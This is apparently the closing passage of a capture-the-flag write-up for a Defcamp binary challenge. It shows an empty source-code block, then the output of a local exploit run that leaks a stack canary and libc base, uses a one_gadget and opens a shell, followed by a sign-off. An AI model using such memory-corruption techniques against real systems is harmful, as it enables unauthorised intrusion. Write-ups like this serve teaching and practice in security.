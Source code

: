 ```python
```

Running the exploit we will get shell:-

```asm
robin@oracle:~/CTFs/Defcamp$ python q3_exp.py 
[*] '/home/robin/CTFs/Defcamp/q3'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/lib/x86_64-linux-gnu/libc.so.6'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Starting local process './q3': pid 9550
[*] canary: 0x648678ab45c48e00
[*] libc base: 0x7ffff79e4000
[*] one_gadget: 0x7ffff7a332c5
[*] Switching to interactive mode
$ ls
core                 libc.so.6       q3_exp.py  q3.til
$ 
[*] Interrupted
[*] Stopped process './q3' (pid 9550)
```


That was it folks, took more than I thought it would but we made it.

I hope you enjoyed it and learned something today. If you encountered any problem or anything relevant contact me on [twitter](https://twitter.com/d4mianwayne)



